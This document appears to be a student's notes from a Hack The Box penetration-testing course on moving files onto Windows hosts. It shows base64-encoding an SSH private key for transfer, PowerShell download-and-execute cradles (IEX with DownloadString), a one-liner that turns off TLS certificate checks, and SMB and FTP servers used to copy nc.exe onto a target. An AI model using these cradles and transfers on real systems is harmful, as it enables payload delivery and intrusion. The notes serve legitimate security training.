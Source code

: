 ![](https://academy.hackthebox.com/storage/modules/24/WIN-download-PwnBox.png)
==PowerShell Base64 Encode & Decode==

```
# Linux
Orbixio@htb[/htb]$ md5sum id_rsa
Orbixio@htb[/htb]$ cat id_rsa |base64 -w 0;echo    # Encode to base64

# Windows
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64 hash goes here>"))
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

==PowerShell Web Downloads==

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

```
PS C:\htb> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>', '<Output File Name>')

PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')

PS C:\htb> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX

PS C:\htb> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```

Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).

**Common Errors with PowerShell**

- ```powershell-session
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.```

This can be bypassed using the parameter `-UseBasicParsing`.

- ```powershell-session
Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."```

This can be bypassed by following command:
`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

==SMB Downloads==

```shell-session
Orbixio@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test
```

```cmd-session
C:\htb> copy n:\nc.exe
```

==FTP Downloads==

```shell-session
Orbixio@htb[/htb]$ sudo python -m pyftpdlib --port 21
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

#### Create a Command File for the FTP Client and Download the Target File

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


